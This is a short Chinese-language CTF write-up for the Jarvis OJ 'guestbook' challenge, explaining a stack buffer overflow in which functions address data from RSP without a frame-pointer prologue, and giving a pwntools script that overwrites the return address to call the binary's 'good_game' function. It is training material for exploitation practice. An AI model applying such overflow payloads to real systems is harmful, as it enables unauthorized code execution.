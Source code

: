```yaml
---
title: guestbook
date: 2019=07-23
categories:
- javrisoj
tags: stack RSP
---
```


**<font style = 'font-size:25px'>RSP和返回地址的关系</font>**

# 漏洞

- 栈溢出
- 不同的是
    ![process](https://c-ssl.duitang.com/uploads/item/201907/23/20190723214542_AaQ2l.png)
    ![gdb](https://c-ssl.duitang.com/uploads/item/201907/23/20190723214542_4KViN.thumb.700_0.png)
    这里使用的是`RSP`指向位置的内容作为返回地址
# 原因

- 看他的汇编   
    ![armasm](https://c-ssl.duitang.com/uploads/item/201907/23/20190723215016_trrVX.thumb.700_0.png)   
    在`main`函数开始的时候，并没有像正常流程那样
    ```armasm
    push    rbp
    mov     rbp, rsp
    ```
    而且不止是main函数，所有二进制文件的函数都没有这一步。    
    这个题应该是所有数据都根据`RSP`寻址。

# exp

```python
from  pwn import * 

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

sh = process('./guestbook')
#sh = remote('pwn.jarvisoj.com', 9876)
elf = ELF('./guestbook')
addr = elf.symbols['good_game']

gdb.attach(sh)
payload = 'A' * 0x88  + p64(addr)
sh.sendlineafter('\n',payload)

sh.interactive()
sh.close()
```